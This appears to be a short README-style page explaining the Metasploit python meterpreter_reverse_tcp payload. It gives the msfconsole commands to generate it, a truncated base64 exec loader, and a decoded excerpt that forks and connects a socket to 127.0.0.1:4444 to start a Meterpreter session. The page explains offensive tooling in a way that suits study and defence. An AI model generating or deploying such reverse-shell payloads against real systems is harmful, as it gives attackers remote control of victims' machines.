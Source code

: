 # Metasploit python meterpreter_reverse_tcp

## Single payload

### Generate

```
msf5 > use payload/python/meterpreter_reverse_tcp
msf5 payload(python/meterpreter_bind_tcp) > generate -f raw -o single.py
```
### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('IyEvdXNyL2Jpbi9weXRob24KaW1wb3J0IGJpbmFzY2lpCmltcG9yd...
...)))
```

### Base64 Decoded Content
The meterpreter payload is invocated as follows (see end of file):
```python
...
_try_to_fork = TRY_TO_FORK and hasattr(os, 'fork')
if not _try_to_fork or (_try_to_fork and os.fork() == 0):
    if hasattr(os, 'setsid'):
        try:
            os.setsid()
        except OSError:
            pass
    if HTTP_CONNECTION_URL and has_urllib:
        transport = HttpTransport(HTTP_CONNECTION_URL, proxy=HTTP_PROXY, user_agent=HTTP_USER_AGENT,
                http_host=HTTP_HOST, http_referer=HTTP_REFERER, http_cookie=HTTP_COOKIE)
    else:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

        s.connect(('127.0.0.1',4444))

        transport = TcpTransport.from_socket(s)
    met = PythonMeterpreter(transport)
    # PATCH-SETUP-TRANSPORTS #
    met.run()
```

Full payload contents are stored in file `single_decoded.py`.
